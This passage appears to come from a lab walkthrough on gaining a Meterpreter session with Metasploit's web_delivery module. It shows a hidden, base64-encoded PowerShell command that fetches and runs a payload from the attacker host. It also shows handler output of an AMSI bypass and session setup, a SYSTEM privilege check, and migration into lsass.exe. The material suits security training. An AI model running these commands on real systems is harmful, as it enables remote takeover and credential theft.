 **Explanation:** The Metasploit `web_delivery` module generates a payload that, when executed on the target, opens a Meterpreter session. This provides a powerful interface for post-exploitation activities.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Execute the provided PowerShell command on the target machine, which will download and execute the payload generated by Metasploit, establishing a Meterpreter session back to the attacker._

```
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABVAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZ

...

AEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADQANgAuADQAOgA4ADAAOAAwAC8AWgBLAEoARABxADMAWQBwAHUAJwApACkAOwA=
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Verify that the Meterpreter session has been successfully established, confirming control over the target machine._

```
[*] 10.4.27.105      web_delivery - Delivering AMSI Bypass (939 bytes)
[*] 10.4.27.105      web_delivery - Delivering Payload (1892 bytes)
[*] Sending stage (176195 bytes) to 10.4.27.105
[*] Meterpreter session 1 opened (10.10.46.4:4444 -> 10.4.27.105:49762) at 2024-08-20 15:37:55 +0530 ←
```

_List all active sessions in Metasploit and interact with the new Meterpreter session._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Check the user context of the Meterpreter session to confirm that it is running with `NT AUTHORITY\SYSTEM` privileges._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Migrate the Meterpreter process to `lsass.exe` to ensure persistence and stability of the session by attaching to a critical system process._

`migrate -N lsass.exe`:
```
[*] Migrating from 2996 to 696...
[*] Migration completed successfully. ←
```

_Use the shell command to search for files with the keyword `flag` and retrieve the contents to obtain the flag for the lab._
